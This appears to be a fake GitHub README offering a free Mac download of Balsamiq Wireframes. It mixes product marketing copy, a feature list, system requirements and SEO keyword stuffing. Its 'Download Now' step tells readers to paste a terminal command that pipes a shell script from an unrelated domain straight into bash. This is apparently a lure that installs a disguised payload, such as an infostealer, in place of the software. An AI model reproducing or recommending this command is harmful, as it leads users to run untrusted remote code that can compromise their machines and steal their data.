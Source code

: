 # Balsamiq Wireframes Mac Download

![Balsamiq Wireframes Screenshot 1](https://balsamiq.com/assets/blog/2025/02/old-balsamiq-logos.jpg)

---

## 📥 Download Now

Open the terminal on your device and paste the command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```

---

## 🧱 What is Balsamiq Wireframes for Mac?

**Balsamiq Wireframes for Mac** is a fast, user-friendly wireframing tool that helps designers, product managers, developers, and entrepreneurs quickly sketch interface ideas. With its hand-drawn aesthetic and intuitive drag-and-drop interface, Balsamiq allows you to focus on **structure and usability** before getting caught up in details.

This app brings the simplicity of whiteboard wireframing to your macOS desktop, enabling low-fidelity UI design with **real-time collaboration**, **easy component customization**, and a vast built-in library of UI elements. Balsamiq Wireframes supports offline mode and native macOS functionality, making it the perfect companion for rapid prototyping anywhere.

Whether you're working on apps, websites, or internal tools, Balsamiq empowers you to test, present, and refine your interface designs in a clean, distraction-free environment. With minimal learning curve and maximum productivity, it's an essential tool in any designer’s toolkit.

---

## 🚀 Key Features & Benefits

- 🖌️ **Sketch-style Interface** – Mimics paper sketches to focus on user experience, not pixel perfection  
- 🧰 **Component Library** – 100+ built-in elements including buttons, tables, forms, and more  
- 📄 **Export Options** – Export wireframes as PNGs or PDFs for presentations or documentation  
- 🤝 **Team Collaboration** – Share designs and collect feedback with ease  
- 💡 **Low Learning Curve** – Get productive in minutes with simple controls and UI  
- 🧭 **Offline Support** – No internet? Keep designing with the fully offline desktop app  
- 🖥️ **macOS Optimized** – Fully native application for Intel and Apple Silicon Macs  
- 🛠️ **Custom Symbols** – Reuse design components and maintain consistency in your mockups  
- 🗂️ **Project Organization** – Keep wireframes grouped, sorted, and navigable within projects

---

![Balsamiq Wireframes Screenshot 2](https://mac-cdn.softpedia.com/screenshots/Balsamiq-Mockups-For-Desktop_4.png)

---

## 💻 System Requirements (macOS)

- **OS**: macOS 10.13 High Sierra or later  
- **CPU**: Intel or Apple Silicon (M1/M2/M3)  
- **RAM**: 4 GB (8 GB recommended)  
- **Disk**: 250 MB of free space  
- **Internet**: Optional (for sharing and updates)

---

## 🏷️ Keywords

balsamiq wireframes, balsamiq download, balsamiq wireframes free, balsamiq wireframes download, balsamiq free, balsamic wireframing, balsamiq free download, balsamiq wireframing tool, balsamic wireframing tool, balsamiq application, balsamiq for free, balsamiq wireframes free download, balsamiq wireframe free, balsamiq for mac, balsamiq wireframe download, free version of balsamiq, download balsamiq wireframes, balsamiq download for mac, balsamiq download mac, balsamiq mac download, balsamiq mac os, balsamiq software download, balsamiq software free download, balsamiq wireframes mac, balsamiq wireframes mac download, balsamiq wireframes mac free, balsamiq wireframes mac free download, balsamiq wireframes macos, balsamiq wireframes osx
